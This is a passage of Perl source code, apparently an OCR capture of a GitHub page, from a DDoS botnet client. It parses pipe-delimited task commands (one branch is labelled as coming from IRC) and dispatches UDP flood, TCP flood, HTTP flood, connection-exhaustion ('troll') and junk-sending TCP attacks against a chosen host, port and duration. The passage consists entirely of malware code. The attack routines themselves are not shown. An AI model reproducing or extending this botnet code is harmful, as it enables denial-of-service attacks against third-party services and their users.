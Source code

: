 			$tasks{$taskToStart} = attackUdpFlood($3, $4, $5, $6);
			print "id = $1| type = $2| host = $3| port = $4 | packetsize = $5 | duration = $6| pingtime = $7, pid = $tasks{$taskToStart}\n";
			setPingTime($7);
		} else {
			print "malformed UDP task\n";
			return;
		}		

	}elsif ($missionType eq 'tcpflood'){
		print "tcpflood\n";

		if ($taskToStart =~ /(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)/) {
			#print "id = $1| type = $2| host = $3| port = $4 | duration = $5| pingtime = $6\n";
			$tasks{$taskToStart} = attackTcpFlood($3, $4, $5);
			setPingTime($6);
		} else {
			print "malformed TCPFLOOD task\n";
			return;
		}
	}elsif ($missionType eq 'httpflood'){
		print "httpflood from irc\n";

		if ($taskToStart =~ /(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)/) {
			#print "id = $1| type = $2| host = $3| duration = $4| pingtime = $5\n";
			$tasks{$taskToStart} = attackHttpFlood($3, $4);
			setPingTime($5);
		} else {
			print "malformed HTTPFLOOD task\n";
			return;
		}
	}elsif ($missionType eq 'troll'){
		print "troll\n";

		if ($taskToStart =~ /(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)/) {
			#print "id = $1| type = $2| host = $3| port = $4 | connects = $5 | sleep = $6 | duration = $7| pingtime = $8\n";
			$tasks{$taskToStart} = attackTroll($3, $4, $5, $6, $7);		#plus duration
			setPingTime($8);
		} else {
			print "malformed TROLL task\n";
			return;
		}		

	}elsif ($missionType eq 'tcp'){ # TCP атака. тоже что и тролл, но с посылкой мусора в порт после коннекта.
		if ($taskToStart =~ /(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)\|(.*)/) {
			#print "id = $1| type = $2| host = $3| port = $4 | connects = $5 | maxbodylen = $6 | duration = $7| pingtime = $8\n";
			$tasks{$taskToStart} = attackTcpTroll($3, $4, $5, $6, $7);
			setPingTime($8);
		} else {
			print "malformed TCPTROLL task\n";
			return;
		}		
